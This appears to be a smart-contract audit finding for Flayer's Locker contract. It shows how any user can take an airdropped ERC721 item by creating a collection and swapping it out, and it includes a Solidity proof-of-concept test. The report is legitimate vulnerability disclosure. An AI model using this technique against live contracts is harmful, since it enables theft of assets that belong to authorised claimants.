 Clean Snowy Mustang

High

# ERC721 Airdrop item can be redeemed/swapped out by user who is not an authorised claimant

## Summary
ERC721 airdrop  item can be redeemed/swapped out by user who is not an authorised claimant.

## Vulnerability Detail
Locker contract owner calls [requestAirdrop()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/AirdropRecipient.sol#L85) to claim airdrop from external contracts. The airdropped items can be ERC20, ERC721, ERC1155 or Native ETH, and these items are only supposed to be claimed by authorised claimants.

Unfortunately, if the airdropped item is ERC721, a malicious user can bypass the restriction and claim the item by calling [redeem()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L198) / [swap()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L241), despite they are not the authorised claimant. 

Consider the following scenario:
1. A highly valuable ERC721 collection item is claimed by Locker contract in an airdrop;
2. Bob creates a collection in Locker contract against the this ERC721 collection;
3. Bob swaps the airdropped item by using a floor collection item;
6. By doing that, bob is able to claim the airdropped even if he is not the authorised claimant.

Please run the PoC in Locker.t.sol to verify:
```solidity
    function testAudit_RedeemAirdroppedItem() public {
        // Airdrop ERC721
        ERC721WithAirdrop erc721d = new ERC721WithAirdrop();

        // Owner requests to claim a highly valuable airdropped item
        locker.requestAirdrop(address(erc721d), abi.encodeWithSignature("claimAirdrop()"));
        assertEq(erc721d.ownerOf(888), address(locker));

        address bob = makeAddr("Bob");
        erc721d.mint(bob, 1);

        // Bob creates a Locker collection against the airdrop collection
        vm.prank(bob);
        address collectionToken = locker.createCollection(address(erc721d), "erc721d", "erc721d", 0);

        // Bob swaps out the airdropped item
        vm.startPrank(bob);
        erc721d.approve(address(locker), 1);
        locker.swap(address(erc721d), 1, 888);
        vm.stopPrank();

        // Bob owns the airdropped item despite he is not the authorised claimant
        assertEq(erc721d.ownerOf(888), address(bob));
    }
```

## Impact

An airdropped ERC721 item can be stolen by malicious user, the authorised claimant won't be able make a claim.

## Code Snippet

https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L198

https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L241

## Tool used

Manual Review

## Recommendation

Should not allow arbitrary user to redeem/swap the airdropped item.